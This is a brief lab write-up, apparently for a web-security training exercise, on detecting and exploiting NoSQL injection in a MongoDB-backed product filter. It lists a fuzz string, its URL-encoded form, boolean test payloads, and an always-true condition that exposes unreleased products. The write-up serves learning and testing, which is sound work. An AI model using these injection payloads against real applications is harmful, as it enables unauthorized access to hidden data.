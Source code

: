 # Detecting NoSQL injection
# Objective
The product category filter for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.\
\
To solve the lab, perform a NoSQL injection attack that causes the application to display unreleased products.

# Solution
## Detecting syntax injection
Fuzz string:
```
'"`{
;$Foo}
$Foo \xYZ
```

Encoded fuzz string:
```
'%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
### Determinig which characters are processed
Some of the characters from fuzz string cause an error. In order to find them, they have to be checked one by one.



### Confirming conditional behavior
The following payloads helps to to confirm whether an application is vulnerable to condicional query manipulations:
```
' && 0 && 'x
' && 1 && 'x
```

### Overriding existing conditions
The following conditions will allways evaluate to true:
```
'||1||'
```



